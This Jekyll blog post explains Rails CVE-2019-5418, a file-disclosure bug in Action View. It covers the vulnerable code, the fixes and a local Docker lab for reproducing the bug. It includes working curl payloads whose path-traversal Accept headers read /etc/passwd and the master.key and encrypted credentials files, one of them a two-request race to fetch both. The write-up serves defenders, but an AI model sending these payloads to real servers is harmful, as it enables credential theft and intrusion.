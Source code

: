 ```yaml
---
layout: post
title:  "CVE-2019-5418"
summary: "File Content Disclosure in Action View"
date: 2020-08-09 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

[First published](https://nvd.nist.gov/vuln/detail/CVE-2019-5418) on 27 March 2019

# File Content Disclosure in Action View

## tl;dr
If you render files without templates in your controllers on affected versions of Rails, it is possible for attackers to read arbitrary files on your file system. From there, bad things happen.
{: .critical }

<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        6.0.0.beta3<br/>
        5.2.2.1<br/>
        5.1.6.2<br/>
        5.0.7.2<br/>
        4.2.11.1
      </td>
    </tr>
  </tbody>
</table>

## Weakness

This vulnerability lets an attacker [traverse directory paths ](http://cwe.mitre.org/data/definitions/22.html) which can then lead to the [exposure of sensitive information](http://cwe.mitre.org/data/definitions/200.html).

## Vulnerability

Specially crafted `Accept` request headers in combination with a call to endpoints that `render file:` can be used to traverse directory paths and expose sensitive information.

A vulnerable controller will look something like this:

```ruby
class UserController < ApplicationController
  def index
    render file: "#{Rails.root}/some/file"
  end
end
```

The attacking request will look something like this:

{% highlight bash %}
{% raw %}
curl -H 'Accept: ../../../../../../../../etc/passwd{{' http://target/users
{% endraw %}
{% endhighlight %}

Since the target endpoint controller renders files without a specified accept format, then the contents of the file `/etc/passwd` can be read.

## Breakdown

The `ActionView::TemplateRenderer` class will try to resolve a path, that is based on the formats requested in the `Accept` header.[^fn-render]

The attack exploits code in the `ActionView::PathResolver` class, in particular, the way in which template paths are queried in the [find_template_paths](https://github.com/rails/rails/blob/v5.2.1/actionview/lib/action_view/template/resolver.rb#L246-L252) method.

```ruby
def find_template_paths(query)
  Dir[query].uniq.reject do |filename|
    File.directory?(filename) ||
      # deals with case-insensitive file systems.
      !File.fnmatch(query, filename, File::FNM_EXTGLOB)
  end
end
```

Objects of class `Dir` are directory streams, representing directories in the underlying file system. `Dir[query]` is equivalent to calling `Dir.glob([string,...], 0)` which will return an array of matching directories.

The pattern passed to the `glob` method looks like a regexp but is more like a shell glob. The attacker takes advantage of this by passing in a pattern that looks like this:

{% highlight shell %}
{% raw %}
../../../../../../../../etc/passwd{{
{% endraw %}
{% endhighlight %}

So instead of a glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.html,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The addition of the `Accept` header will glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.../../../../../../etc/password{{,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The double `{` is enough to make this a valid pattern. The `../` pattern goes up one directory from wherever the code is called, and repeating them enough times, gets you back to root, high enough to then read in something like `/etc/passwd`. The contents of that file are then cached and rendered back to the user.

The attacker can do more damage though, by reading sensitive files, such as those used by the Rails credentials API. These files typically live in the `#{Rails.root}/config/` directory, and the attacker can use a pattern that looks like this to read them:

{% highlight shell %}
{% raw %}
../../../../../../**/config/master.key{{
{% endraw %}
{% endhighlight %}

The inclusion of a `**` pattern will match directories recursively (without needing to guess the directory layout), and the `config/master.key` pattern should find the `master.key` in the target Rails config directory. If the attacker retrieves that key along with `credentials.yml.enc` from the same directory, they will be able to decrypt and use related credentials in chained attacks.

Of note though, the contents are cached[^fn-cached] so an attacker will need to make multiple requests to different servers or wait for your server to be redeployed with a cold cache. It's also possible to fork a race condition with something like this to retrieve both files:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' \
  http://localhost:3000/users/index & \
curl -H 'Accept: ../../../../../../**/config/credentials.yml.enc{{' \
  http://localhost:3000/users/index
{% endraw %}
{% endhighlight %}

## Fix

<mark>The best fix for this, is to upgrade Rails to one of the patched versions.</mark>

The vulnerability can be mitigated by making sure you render files with a fixed format:

```ruby
render file: "#{Rails.root}/some/file", formats: [:html]
```
You can also monkey patch `ActionDispatch` via your own initializer, which is similar to what the [patched versions](https://github.com/rails/rails/blob/fbe2433be6e052a1acac63c7faf287c52ed3c5ba/actionpack/lib/action_dispatch/http/mime_negotiation.rb#L83-L85) of the `MimeNegotiation` module do to prevent string containing traverse patterns being accepted in the first place:

```ruby
ActionDispatch::Request.prepend(Module.new do
  def formats
    super().select do |format|
      format.symbol || format.ref == "*/*"
    end
  end
end)
```

In general, it's best to upgrade to a patched version of Rails before patching this yourself. The latter is easily forgotten over time and can cause you all sorts of headaches in future.

# Research

You can re-create this with a [canned CVE environment](https://github.com/correkthorse/rails-cve-testing) using Docker. To build the vulnerable image:

    $ CVE=CVE-2019-5418 RAILS_VERSION=5.2.1 make build

Then to run it locally, for testing:

    $ CVE=CVE-2019-5418 make server

Then target it:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' http://localhost:3000/users/index
flag{master}
{% endraw %}
{% endhighlight %}

# References

[^fn-render]: [Analysis for CVE-2019-5418 File Content Disclosure on Rails ](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/)
[^fn-cached]: [CVE-2019–5418: on WAF bypass and caching](https://blog.pentesterlab.com/cve-2019-5418-on-waf-bypass-and-caching-10e93f9a1981)
